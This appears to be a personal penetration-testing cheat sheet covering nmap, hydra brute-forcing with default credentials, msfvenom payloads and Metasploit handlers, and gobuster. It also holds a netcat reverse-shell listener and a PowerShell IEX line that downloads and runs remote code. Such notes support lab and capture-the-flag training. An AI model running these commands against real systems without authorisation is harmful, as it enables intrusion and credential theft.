 # Random notes that I have not filed yet

## Standard nmap scan
`sudo nmap -sC -sV -oA nmap/(box name) (IP)`

## Screenshots
### Howto
In Kali, `CTRL+SHIFT+PRINT SCREEN` brings up a target window, you can then use this to draw a rectangle around an area and take a picture. This picture is saved to your clipboard, which you can paste inside or outside of your VM
### Screenshot access when obtained
Windows: `hostname; whoami; ipconfig`

Linux: `hostname; whoami; ip a`

## Setup a simple web server
`python -m SimpleHTTPServer`

## Encoding file to remove bad characters, and copy to clipboard
`cat (filename) | iconv -t UTF-16LE | base64 -w 0 | xclip -selection clipboard`

Change `UTF-16LE` to `UTF-8` for Unix

## HTTP login pages
`hydra -C /usr/share/seclists/Passwords/Default-Credentials/(chosen file) -s (port) (IP) http-get (subdirectory)`

## MSFVenom
### List payloads
`msfvenom -l payloads`
### List formats
`msfvenom -l formats`
### Create payload
`msfvenom -p (payload) LHOST=(IP) LPORT=(port) -f (format) -o (output filename)`

## Setup handler
In Metasploit: 

`use exploit/multi/handler`

`set payload (selected payload)`

`set LHOST tun0`

`set LPORT (port)`

`exploit -j` to run in background

## Check sessions in Metasploit
`sessions -i 1`

## Wordlists
### How to make nice wordlists
`hashcat --force --stdout -r /usr/share/hashcat/rules/best64.rule (original password list you have) > password.lst`

## Decompilers
### DNSpy
Recommended for .NET

## Linux shell
### `!!`
Reruns previous command
### `$_`
Pulls out last argument from previous command
### `!$`
Pulls out last word from previous command (not quite the same as `$_`)

## Windows shell
### `allinfo`
Windows version of `ls -lah`
### `type`, `gc`
Windows version of `cat`
### `gci`
Shorthand for `get-childitem`, `gci -Hidden` is like `ls -a`
### Running files
Run files with `.\(filename)`
### Download from Windows shell
`IEX(New-Object Net.WebClient).downloadString('http://(IP/HOSTNAME)')`

## OS typing by TTL
Windows has a default of a 128 TTL, Unix has 64?

## Finding web server subdirectories
`gobuster dir -u '(IP)' -x (format) -w /usr/share/wordlists/dirbuster/(chosen wordlist) -o (output file)`

## Reverse shells
### Where can they be found?
On Kali, find most in `/opt/nishang/Shells/`, `/usr/share/laudanum/php/`

Plenty at [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Netcat is fairly reliable, bash also works well
### Setup a listener for a reverse shell
`nc -lvnp 8081`

### Convert into a real shell
`python -c 'import pty;pty.spawn("/bin/bash")'`

## Searchsploit
Path for Kali is `/usr/share/exploitdb/exploits/`

## evil-winrm
### `upload`
Uploads a file from your current working directory

## DNS Servers
Typically running kerberos (:88), Windows RPC (:135), and ldap (:389), possibilty SMB (:445)
